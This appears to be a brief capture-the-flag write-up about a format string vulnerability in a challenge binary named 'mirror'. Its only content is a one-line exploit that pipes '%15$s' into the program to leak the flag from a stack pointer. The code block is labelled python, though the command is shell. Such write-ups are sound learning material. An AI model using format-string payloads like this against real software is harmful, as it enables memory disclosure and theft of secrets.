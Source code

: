 ## Format String Vulnerability 

Description :

Difficulty : 3/5

#### Exploit 

Format string vulnerability to leak the flag from pointer on the stack.

``` python 
echo "%15$s" | ./mirror
```


